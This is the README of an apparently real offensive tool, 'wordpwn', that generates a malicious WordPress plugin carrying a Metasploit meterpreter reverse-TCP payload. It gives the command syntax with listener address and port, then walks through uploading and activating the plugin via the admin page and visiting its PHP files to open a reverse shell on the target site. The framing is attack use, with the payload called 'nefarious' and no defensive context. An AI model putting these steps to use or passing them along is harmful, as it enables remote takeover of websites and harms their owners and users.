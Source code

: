 # Malicious WordPress plugin

This utility simply generates a WordPress plugin that will grant you a reverse shell once uploaded. I recommend installing Kali Linux, as MSFvenom is used to generate the payload.

It goes without mentioning that in order for this method to be effective, you must have credentials to a
valid User account, with rights to add plugins to the WordPress website ;)

## Usage Example
```sh
root@wetw0rk:~# python wordpwn.py
__        __            _
\ \      / /__  _ __ __| |_ ____      ___ __
 \ \ /\ / / _ \|  __/ _  |  _ \ \ /\ / /  _ \
  \ V  V / (_) | | | (_| | |_) \ V  V /| | | |
   \_/\_/ \___/|_|  \__,_| .__/ \_/\_/ |_| |_|
                         |_|


Usage: wordpwn.py [LHOST] [LPORT] [HANDLER]
Example: wordpwn.py 192.168.0.6 8888 Y
```

## How and When do I use this?

Usage is super simple, simply pass wordpwn your listening address and listening port and execute the script. You are also given the option to start a handler, I recommend that you do... since by default the plugin will be made using a `php/meterpreter/reverse_tcp` reverse shell.If you have your own nefarious PHP payload simply adjust the script to accept it.

After the script is ran, a zip file (the plugin) called `malicious.zip` will be created in the current directory (and a handler will be started if you specified it with the `Y` option).
Upload this zip file as a new plugin (by browsing to the URL `http://(target)/wp-admin/plugin-install.php?tab=upload`).
Once uploaded, you have to activate the plugin.

Be sure to start our listener (if you didn't specify the handler with the `Y` option) !

Once the plugin installed and activated, just navigate to the following URLs to launch the reverse shell :
 - http://(target)/wp-content/plugins/malicious/wetw0rk_maybe.php
 - http://(target)/wp-content/plugins/malicious/QwertyRocks.php



**Note:** if the script usage is still a mystery to you, [JavaRockstar](https://github.com/JavaRockstar) has made a tutorial on his website [HackingVision](https://hackingvision.com/2017/04/11/hacking-wordpress-website-malicious-plug/) about it.


## PLEASE READ
I want to be 100% sure that I give credit to [Rob Carr](https://www.rastating.com/). Rob Carr is the author of the Metasploit module `wp_admin_shell_upload`, which this script is based on. You can find more information on his module at [Rapid7](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload) .
